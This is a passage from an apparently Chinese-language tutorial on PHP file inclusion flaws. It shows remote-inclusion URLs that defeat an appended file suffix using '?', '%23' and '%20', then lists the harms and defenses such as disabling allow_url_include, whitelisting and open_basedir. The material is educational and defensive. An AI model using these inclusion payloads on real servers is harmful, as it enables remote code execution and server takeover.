 

```
http://ip/xxx.php?file=http://ip/test.php?
```

代码实际执行了：`require_once` 

```
http://ip/xxx.php?file=http://ip/test.php?/action/m_share.php
```

将`/action/m_share.php`作为http://ip/test.php的查询字符串

```
http://ip/xxx.php?file=http://ip/test.php%23
http://ip/xxx.php?file=http://ip/test.php%20
```

## 文件包含漏洞危害及防御

### 危害

- 获取敏感信息
- 执行任意命令
- 获取服务器权限

### 防御

- 尽量不使用动态包含，无需情况下设置allow url include和allow_url fopen为关闭;
- 对可以包含的文件进行限制:使用白名单的方式，或者设置包含的目录，open_basedir;
- 严格检查用户输入，参数中不允许出现../之类的目录跳转符;
- 严格检查变量是否初始化;
- 不要仅仅在客户端做数据的验证与过滤，关键的过滤步骤在服务端进行。